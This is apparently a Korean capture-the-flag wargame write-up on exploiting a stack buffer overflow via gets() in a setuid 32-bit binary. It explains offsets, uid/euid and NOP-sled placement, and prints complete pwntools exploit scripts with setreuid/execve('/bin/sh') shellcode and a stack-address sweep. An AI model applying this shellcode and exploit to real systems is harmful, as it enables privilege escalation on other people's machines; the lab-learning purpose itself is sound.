



> 셸코드 주입 → 오버플로우로 **셸코드**를 스택에서 실행 → 셸코드가 `setreuid`로 권한을 고정하고 `/bin/sh` 실행 → **다음 챕터(Breaking) 셸** 획득 → 클리어.
(File_Decoder 바이너리의 주인이 breaking 이고 setuid가 걸려있으면 파일 주인의 권한으로 도는거니까 breaking 권한으로 바이너리가 도는건데, 이렇게 도는 와중에 버그로 코드 실행을 뺏으면 내가 실행시키는 코드가 breaking 권한으로 실행되는거고 여기서 쉘코드 주입시킨걸 실행시키니까 breaking의 셸을 얻어서 다음 레벨로 갈 수 있다)
> 

---

## 1. 문제 파악



### 1-1. 코드 분석

`File_Decoder`는 **setuid(Breaking) 바이너리** (주인이 Breaking이고 setuid 비트가 걸려 있음).

```c
int main(){
    char serial[256];
    printf("Serial Number: ");
    gets(serial);                               // ← 취약점: 별도의 길이 검사 없음
    if(strlen(serial)==29 && strcmp(serial,srl)==0)
        print_file();                           // 시리얼 맞으면 .Real_Top_Secret 출력
    return 0;
}
```

- `gets()`는 입력 길이를 검사하지 않음 → `serial[256]` 이니까 256 넘기면 SBO 공격 가능.
- 바이너리 안에 **win 함수가 따로 없다** → 리턴 주소를 "이미 있는 함수"로 보낼 수 없음 → **셸코드를 직접 넣어야 함**.

### 1-2. 보호기법 확인 (checksec)

```
Arch:     i386-32-little      ← 32비트
RELRO:    No RELRO
Stack:    No canary found     ← 스택 카나리 없음 → 그냥 덮어씌우기 가능
NX:       NX 꺼짐 (Executable)← 스택에서 코드 실행 가능 → 셸코드 주입+실행 가능
PIE:      No PIE              ← 코드 주소 고정
```

추가로 `cat /proc/sys/kernel/randomize_va_space` → **0 (ASLR도 꺼져있다)** 

---

## 2. Exploit 아이디어

1. `gets`로 `serial`을 넘치게 해서 **리턴 주소**를 덮는다.
2. 리턴 주소를 **주입한 셸코드의 스택 주소**로 덮는다.
3. `main`이 `ret`하는 순간 → 셸코드 실행 → 셸 획득

#### offset 계산

disass로 확인

- `serial` 버퍼 = `ebp-0x108`
- 리턴 주소 = `ebp+4` (32비트는 프롤로그 `push ebp; mov ebp,esp` 때문에 항상 ebp+4 이다. 64비트는 rbp+8)
- 오프셋 = `0x108 + 4` = **268**

> `serial`은 256바이트지만, 프롤로그의 `push edi; push ebx`가 중간에 8바이트를 끼워넣고, 저장된 ebp 4바이트까지 더해져서: 256 + 4(ebx) + 4(edi) + 4(saved ebp) = 268.
> 

---

## 3. ShellCode

바이너리에 win 함수가 없으니 shellcode를 직접 주입한다

```nasm
xor eax,eax ; mov al,49 ; int 0x80      ; eax = geteuid()
mov ebx,eax ; mov ecx,eax
xor eax,eax ; mov al,70 ; int 0x80      ; setreuid(euid, euid)

; execve("/bin/sh", 0, 0)  — 셸 실행
xor eax,eax ; push eax                   ; 문자열 끝 NULL
push 0x68732f2f ; push 0x6e69622f        ; "/bin/sh"를 스택에주입
mov ebx,esp                              ; ebx = "/bin/sh" 주소
xor ecx,ecx ; xor edx,edx
mov al,11 ; int 0x80                     ; execve 호출
```

핵심: `execve`에 넘길 `"/bin/sh"` 문자열을 **스택에 `push`로 쌓는다**. (이 push 때문에 나중에 엄청 고생했다. 5번 참고)

---

## 4. uid / euid / setuid / setreuid

> 이 개념들을 모호하게 알고 있어서 계속 막혔다.
> 

### 신분증 두 개

프로세스는 신분증을 2개 가진다:

- **ruid (real uid)**: "원래 실행한 사람". 잘 안 바뀜.
- **euid (effective uid)**: "지금 권한에 쓰이는 신분". **파일 접근 권한은 euid로 결정한다.**

평소엔 둘이 같다 (ruid = euid = 나).

### setuid 비트

setuid 비트가 걸린 파일을 실행하면 → **euid가 그 파일 주인으로 바뀐다** (ruid는 그대로).

`File_Decoder`(주인이 Breaking인 바이너리)를 내가 실행하면:

```
ruid = Decoding (나)
euid = Breaking (파일 주인)   ← 권한은 이걸로 적용된다 → 이걸 이용하면? Breaking 파일에 접근이 가능해진다.
```

### 문제: `/bin/sh`가 권한을 떨군다 (이거 때문에 좀 고생함…)

그냥 `execve("/bin/sh")`만 하면 끝일 것 같지만 아니다. `/bin/sh`(dash)는 보안상 **"euid ≠ ruid면 수상하다"며 euid를 ruid로 되돌려** 버린다.

```
셸코드가 그냥 execve("/bin/sh")만 하면
→ euid가 Breaking → Decoding으로 떨어짐
→ 떠버린 셸은 그냥 Decoding 권한. 쓸모 없음.
```

즉 **euid가 Breaking이어도, 셸을 켜는 순간 떨궈지면서 Breaking 권한을 못 쓴다.** 권한이 Decoding으로 떨어지면 Breaking 전용 파일(예: `.gdbinit`, `.bashrc`, Breaking 홈)은 그대로 `Permission denied`다. (실제로 Decoding 셸에서 그 파일들 `cat` 해보니 전부 Permission denied.)

### 해결법: `setreuid(euid, euid)`

셸을 켜기 **직전에** ruid까지 euid와 같게 맞춘다:

```
setreuid(Breaking, Breaking)   ; ruid = euid = Breaking
```

이러면 `euid == ruid`라서 `/bin/sh`가 **안 떨군다** → **Breaking 셸 획득**

---

## 5. 페이로드 구조 설계 중 문제/해결

### 문제 1 — 셸코드 주소를 정확히 모름

리턴 주소를 "스택의 셸코드 위치"로 덮어야 하는데, gdb(복사본)와 실제 실행의 스택 주소가 환경 차이로 조금씩 다르다. 

**이 문제를 NOP 썰매(sled)로 해결했다** `\x90`(NOP) = "걍 바로 다음 바이트로 넘어가라". 이걸 도배해두면 리턴 주소가 그 구간 **어디에 떨어지든** NOP을 타고 쭉 내려가 **셸코드에 도착**한다. 

**스윕(sweep)으로 보강**
"대략"은 불확실해서, 리턴 주소를 범위 안에서 **0x20씩 바꿔가며 자동으로 여러 번** 쏜다. (ASLR, PIE 없으므로 주소가 고정이라 가능했다.)

### 문제 2 — 셸코드 손상

주소를 맞춰 셸코드에 도달했는데도 **계속 크래시**났다. 문제 원인은 **셸코드 배치**였다.

버퍼 시작을 **S**라 하자. 리턴 후 `esp = S+272`.

깨진 배치 `[ NOP 231 ][ 셸코드 37 ][ ret ]` → 셸코드가 `S+231 ~ S+267`(버퍼 끝):

```
셸코드가 /bin/sh를 push 하면 (esp = S+272부터 아래로):
 push → [S+268]
 push → [S+264]   ← 셸코드 영역(S+231~267) 안
 push → [S+260]   ← 셸코드 영역 안
```

**push가 쓰는 자리랑 셸코드가 겹쳐서**, 아직 실행 안 한 셸코드 뒷부분(execve)이 덮여 깨진다.

**→ 셸코드를 앞쪽으로 옮겨 해결**`[ NOP 96 ][ 셸코드 ][ NOP sled ][ ret ]` → 셸코드가 `S+96 ~ S+132`(앞쪽):

```
push가 쓰는 곳 = S+260, S+264, S+268  (리턴 근처, 높은 주소)
셸코드 위치     = S+96 ~ S+132         (낮은 주소)
→ 서로 멀어서 안 겹친다 → 셸코드 멀쩡히 실행된다
```

> 교훈: push는 항상 리턴 주소 근처(높은 주소)에서 아래로 쓴다. 그러니 셸코드는 반대편(버퍼 앞쪽, 낮은 주소)에 둬야 자기 자신을 안 부신다.
> 

### 최종 페이로드 모양

```
[ NOP 96개 ][ 셸코드 37B ][ NOP 채움 ][ 리턴 주소(NOP Sled)]
└──────────────── 268바이트 ────────────────┘   └ ebp+4, 4B ┘
```

---

## 6. 최종 Exploit 코드

```python
from pwn import *
context.arch='i386'; context.os='linux'; context.log_level='error'
exe='/home/Decoding_for_Escape/File_Decoder'

# 셸코드: setreuid(euid,euid) 후 execve("/bin/sh")
sc = asm('''
 xor eax,eax; mov al,49;  int 0x80            # geteuid()
 mov ebx,eax; mov ecx,eax; xor eax,eax; mov al,70; int 0x80   # setreuid(euid,euid)
 xor eax,eax; push eax; push 0x68732f2f; push 0x6e69622f
 mov ebx,esp; xor ecx,ecx; xor edx,edx; mov al,11; int 0x80   # execve("/bin/sh")
''')

pre  = 0x60
body = b'\x90'*pre + sc                 # 셸코드를 앞쪽에
body += b'\x90'*(268 - len(body))       # 리턴 직전까지 NOP로 채움

# 리턴 주소를 범위에서 sweep (NOP sled 위 아무 데나 올라가면 성공)
for addr in range(0xffffd500, 0xffffc700, -0x20):
    p = process(exe)
    p.sendline(body + p32(addr))
    p.sendline(b'echo PWNED; id')
    try:
        p.recvuntil(b'PWNED', timeout=0.5)
        log.warning('HIT @ %#x', addr)
        p.interactive(); break          # 성공 → 셸
    except EOFError:
        p.close()
```

---

## 7. Clear(?)

### (1) id로 권한 확인

셸코드가 터져 `$` 프롬프트가 뜬 뒤:

```
$ id
uid=503(Breaking_Through_for_Survival) gid=502(Decoding_for_Escape)
```

원래 `uid=502(Decoding)`였는데 **`uid=503(Breaking)`**으로 바뀌었다. 즉 권한 상승 성공한 것이고 다음 챕터의 유저가 된 것이다.
**Ch.2 클리어**.

### (2) ls로 다음 과제 확인

Breaking 셸에서:

```
$ ls -al /home/Breaking_Through_for_Survival/
-rwsr-xr-x 1 Scavening_for_Survival ... stage3      ← Ch.3 (setuid 바이너리)
-rw-r--r-- 1 root                   ... stage3.c    ← Ch.3 코드
```

---

## 8. 여담

```python
암호화 방법: 3중 AES (키 1: Arkea_45678 | 키 2: Lunar_2024 | 키 3: Theta-XZ1)
추가 코드: "이클립스. 모든 것이 보이는 대로는 아니다. 답은 빛이 도달할 수 없는 곳에 있다."
```

처음엔 위 내용을 보고 암호를 풀어야하나 하고 초반에 삽질을 좀 했다. 내가 모르는? 힌트나 비밀이 있는 것 같은데 잘 모르겠다…

---

## 9. 부록. 셸 환경 개선

### 문제점

얻은 셸의 stdin/stdout이 **pwntools의 파이프**에 연결돼 있어서, 진짜 터미널 장치(TTY)가 없었다. 

- vi, sudo 등 **TTY를 요구하는 프로그램이 "Input is not from a terminal"로 거부**
- 페이로드 전송이 끝나면 **stdin이 EOF → 셸이 즉시 종료**
- SSH 안에 셸이 중첩되면서 **입력이 화면에 반복 렌더링되는 노이즈**

### 문제 원인

**파이프에는 TTY 기능(raw 모드,화면 제어,시그널)이 없다.** 그래서 터미널이 필요한 프로그램이 동작하지 않고, 입력이 끝나면 바로 EOF가 된다.

> 
> 
> - **raw 모드** — 입력을 한 글자씩 즉시 전달 (엔터 안 기다림). 반대는 cooked(줄 단위) 모드.
> - **화면 제어** — 커서 이동·화면 지우기·색깔 등(제어코드 처리), 창 크기(rows×cols) 조회.
> - **시그널** — Ctrl-C(SIGINT)·Ctrl-Z(SIGTSTP) 같은 잡 컨트롤.

### 시도: 처음부터 PTY로 띄우기

`process(..., stdin=PTY, stdout=PTY)`를 주면, pwntools가 프로세스를 **파이프가 아니라
가짜 터미널(PTY) 위에서** 실행한다.

단, **PTY는 입력을 echo(되울림)** 하므로, 스윕 성공 판정을 내 입력에 들어있는 문자열
(`PWNED` 등)로 하면 안된다. → `id`의 출력인 **`uid=`** 처럼 실행 결과로만
나오는 문자열로 판정하도록 바꿨다.

> PTY는 **내 입력을 화면에 다시 출력하니까**, 판정 기준을 ”내가 친 글자(`PWNED`)”로 하면 셸이 없어도 그 글자가 보여서 거짓 성공이 난다. → ”명령을 실행해야만 나오는 출력(`id` → `uid=`)”으로 판정해야 진짜 셸만 걸러낸다.
> 

### 변경된 익스플로잇

```python
from pwn import *
context.arch='i386'; context.os='linux'; context.log_level='error'
exe='/home/Decoding_for_Escape/File_Decoder'

# setreuid(euid,euid) 후 execve("/bin/sh")  — 권한 유지 보장
sc = asm('''
 xor eax,eax; mov al,49;  int 0x80                              /* geteuid() */
 mov ebx,eax; mov ecx,eax; xor eax,eax; mov al,70; int 0x80     /* setreuid(euid,euid) */
 xor eax,eax; push eax; push 0x68732f2f; push 0x6e69622f
 mov ebx,esp; xor ecx,ecx; xor edx,edx; mov al,11; int 0x80     /* execve("/bin/sh") */
''')

pre  = 0x60
body = b'\x90'*pre + sc
body += b'\x90'*(268 - len(body))          # 리턴 직전까지 NOP (offset 268)

for addr in range(0xffffd500, 0xffffc700, -0x20):   # 스택 주소 스윕
    p = process(exe, stdin=PTY, stdout=PTY)          # 처음부터 PTY
    p.sendline(body + p32(addr))
    p.sendline(b'id')                                # 판정용
    try:
        p.recvuntil(b'uid=', timeout=0.5)            # 실행결과로만 나오는 uid= 로 판정
        log.warning('HIT @ %#x', addr)
        p.interactive(); break
    except EOFError:
        p.close()
```

### 익스플로잇 결과

`process(..., stdin=PTY, stdout=PTY)`로 **가짜 터미널(PTY)** 위에서 띄워봤다.

- `tty`가 `/dev/pts/N`을 반환하고 `vi`가 **거부 없이 실행은 됐다**(장치는 붙음).
- 하지만 중첩 셸에선 `TERM`·터미널 크기가 안 맞아 **`vi`·`clear` 화면이 여전히 깨졌다.** → 여전히 문제



### 반전

GitHub 페이지에서 이 워게임의 **커스텀 명령어**(`cmd`, `story`, `chap`, `status`, `next`)를 발견했다. 다음 비번은 **`status` 한 줄이면** 나오고, 이건 단순 명령이라 **중첩 셸에서도 깨끗하게** 출력된다.


#### 결과

익스로 셸을 얻은 뒤 `status` 실행:



→ 다음 챕터 비번 바로 확보.
